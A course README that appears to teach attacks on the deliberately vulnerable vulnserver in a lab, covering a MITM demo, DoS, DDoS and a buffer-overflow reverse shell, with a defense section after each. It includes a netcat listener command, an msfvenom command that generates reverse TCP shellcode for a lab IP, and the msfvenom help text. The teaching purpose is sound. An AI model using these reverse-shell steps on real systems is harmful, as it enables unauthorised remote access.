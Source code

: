 # Attacks against vulnserver

- [MITM](#mitm)
- [DoS](#dos)
- [DDoS](#ddos)
- [Armitage against vchat](../../MetasploitNewModule)
- [Reverse shell utilizing buffer overflow](#reverse-shell)
- [More buffer overflow attacks](../../Buffer-Overflow/BOF-Remote/)
- [More attacks against vnserver](https://github.com/llan-OuO/VulserverAttacks)

## Test setting
- Local host (kali VM): 10.0.2.8
- Victim host (Windows 10 VM: 10.0.2.7

## MITM
### Attack
This attack shows how a message may be changed by the chat server, which works as the man in the middle (MITM) between two chat clients, if there is no protection (interity). To enabe the attack, the chat server owner (bad guy) can do the following

1. Use telnet to connect to the chat server
```
telnet 10.0.2.7 9999
```

2. Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/1dctJFBwZcI/0.jpg)](https://youtu.be/1dctJFBwZcI)

### Defense
* [Hash](https://www.cyberciti.biz/faq/linux-md5-hash-string-based-on-any-input-string/) - What is the problem if only hash is used?

```
echo -n 'Your-String-Here' | md5sum
```

* [HMAC with hash (SHA or MD5)](https://dinochiesa.github.io/hmachash/index.html)
* [Digital signature](https://opensource.com/article/19/6/cryptography-basics-openssl-part-2) - Note: 2048 in the following command is used in the wrong way.
```
openssl genpkey -out privkey.pem -algorithm rsa 2048
```
Correct command is
```
openssl genpkey -out privkey.pem -algorithm rsa -pkeyopt rsa_keygen_bits:2048
```
Or 2048 can be skipped since the default key size is 2048.

Example signature generation and verification process
```
openssl genpkey -out privkey.pem -algorithm rsa
openssl rsa -in privkey.pem -outform PEM -pubout -out pubkey.pem
openssl dgst -sha256 -sign privkey.pem -out sign.sha256 changelog
openssl enc -base64 -in sign.sha256 -out sign.sha256.base64
openssl enc -base64 -d -in sign.sha256.base64 -out sign.sha256
openssl dgst -sha256 -verify pubkey.pem -signature sign.sha256 changelog
```

## DoS
DoS.py
### Attack
This attack exploits the buffer overflow issue of vulnserver and sends a long message, which causes buffer overflow and crash of vulnserver.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/_F88Txt7Qk0/0.jpg)](https://youtu.be/_F88Txt7Qk0)

### Defense
The attack above utilizes the buffer overflow vulnerability of vulnserver. Secure coding is needed for defense. Dangerous functions such as strcpy(.) cannot be used.

## DDoS
DDoS.py
### Attack
Since vulnserver allows only a limited number of connections, this attack creates a lot of connections to vulnserver so that no more new connections can be created and no new user can use vulnserver for chatting.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/lOR4hpPfPws/0.jpg)](https://youtu.be/lOR4hpPfPws)

### Defense
DDoS is often is hard to defeat. In this particular case, an attacker creates a lot of connections to the chat server. For defense, we may need to monitor the number of connections from an inidvidual user.

## reverse-shell
reverse-shell.py
### Attack
This attacks ubtilizes the buffer overflow vulnerability of vulnserver and sends a reverse tcp shell payload, which connects back to the attack and spawns a shell at the attacker.
To receive the reverse shell, run the following command at a terminal of Kali VM
```
nc -l -v -p 4444
``` 

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/LRNZxCC84RI/0.jpg)](https://youtu.be/LRNZxCC84RI)

### Notes
1. If the test setting above is used, the python attacking code works directly with no need of change.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, essfunc.dll does not use ASLR and there is no need of changing the address of *jmp esp* when Windows 10 reboots.
3. If the ip of the local host (attacker's computer) is 10.0.2.8, no need of generating the shellcode using the following command
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!-- ![msfvenom](../../imgs/msfvenom.PNG) -->

### Defense
First secure coding is needed to avoid buffer overflow vulnerabilities.

* Windows has a lot of secure features, including those defeating memory based attacks. Sloppy coding is always there and people have cooked up defense mechnisms in case it happens. 

To enable all features of Exploit Protection of Windows, find :mag_right: at the bottom-left corner of Windows screen and search "Exploit Protection".

<img src="https://github.com/xinwenfu/Malware-Analysis/tree/main/imgs/WindowsExploitProtection.png" width="25%">

* Virus & threat protection shall be enabled too. At the bottom-left corner of Windows screen and search "Virus". In this picture below, all those features are turned off.
<img src="https://github.com/xinwenfu/Malware-Analysis/tree/main/imgs/VirusProtection.png" width="75%">
